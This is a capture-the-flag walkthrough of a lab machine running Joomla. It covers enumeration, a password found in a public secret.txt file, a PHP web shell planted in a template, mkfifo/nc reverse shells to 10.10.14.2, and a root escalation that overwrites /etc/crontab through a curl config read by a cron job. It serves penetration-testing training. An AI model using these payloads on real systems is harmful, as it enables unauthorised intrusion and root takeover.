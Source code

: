 
# Table of Contents

1.  [ENUMERATION](#orga742f69)
    1.  [APACHE](#orge5b757a)
2.  [FOOTHOLD](#org3a495d6)
3.  [LATERAL MOVEMENT](#org4dd0ac8)
    1.  [HEX DUMP](#org6189c1f)
4.  [PRIVILEGE ESCALATION](#org8b933c6)
    1.  [MANIPULATING THE CONFIG](#org3e11036)


<a id="orga742f69"></a>

# ENUMERATION

    NMAP

    ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.150 | grep ^[0-9] | cut -d'/' -f 1 | tr '\n' ',' | sed s/,$//)
    nmap -sC -sV -p$ports 10.10.10.150 --open

Apache is running on port 80 and SSH on port 22.


<a id="orge5b757a"></a>

## APACHE

Navigating to port 80, we come across a Joomla website.

The page contains two usernames: “Super user” and Floris. Checking the HTML source of the page reveals a comment saying \`secret.txt\`. Checking [http://10.10.10.150/secret.txt](http://10.10.10.150/secret.txt) we find a string which is base64 encoded.

    curl -s http://10.10.10.150/secret.txt | base64 -d

Going to the admin page at [http://10.10.10.150/administrator/](http://10.10.10.150/administrator/) and trying to login with the username Floris logs us in.


<a id="org3a495d6"></a>

# FOOTHOLD

Logging in gives us access to the control panel. On the right side under Configuration, click on Templates > Templates > Protostar. Now click on a PHP file like \`index.php\` and add command execution.

    system($_REQUEST['pwn']);

Click on save and navigate to \`/index.php\` to issue commands. Now that we have RCE, we can get a reverse shell.

    curl http://10.10.10.150/index.php -G --data-urlencode 'pwn=rm
    /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f
    '	      


<a id="org4dd0ac8"></a>

# LATERAL MOVEMENT


<a id="org6189c1f"></a>

## HEX DUMP

Navigating to \`/home/floris\` we find a file named \`password<sub>backup</sub>\`. The file looks like a hex dump done using \`xxd\` which can be reversed.

    cd /tmp
    cp /home/floris/password_backup .
    cat password_backup | xxd -r > bak
    file bak

The resulting file is bzip2 compressed.
The file appears to be repeatedly archived. The steps to decompress it are

    bzip2 -d bak
    file bak.out
    mv bak.out bak.gz
    gzip -d bak.gz
    file bak
    bzip2 -d bak
    file bak.out
    tar xf bak.out
    cat password.txt

The file found was password.txt which is the password for floris. We can now SSH in as floris with
the discovered password.

    ssh floris@10.10.10.150


<a id="org8b933c6"></a>

# PRIVILEGE ESCALATION

We enumerate the running crons using \`pspy\`. Download the smaller binary and transfer it to the box.

    wget
    https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64s

    scp pspy64s floris@10.10.10.150:/tmp
    cd /tmp
    chmod +x pspy64s
    ./pspy64s

After letting it run for a minute, we’ll find a cron running. According to \`curl\` manpage, the \`-K\` option is used to specify a config file. The cron uses input as the config and outputs to report. The input file is owned by our group, so we can write our own config. From the manpage, we know that the “output” parameter can be used to specify the output file. We can create a malicious crontab and overwrite it on the box.


<a id="org3e11036"></a>

## MANIPULATING THE CONFIG

First create a malicious crontab locally and start a simple HTTP server.

    cp /etc/crontab .
    echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
    2>&1|nc 10.10.14.2 1234 >/tmp/f ' >> crontab
    python3 -m http.server 80

Now edit the input config with the contents:

    url = "http://10.10.14.2/crontab"
    outpu t = "/etc/crontab"

A shell should be received within a minute.

    nc -lnvp 1234

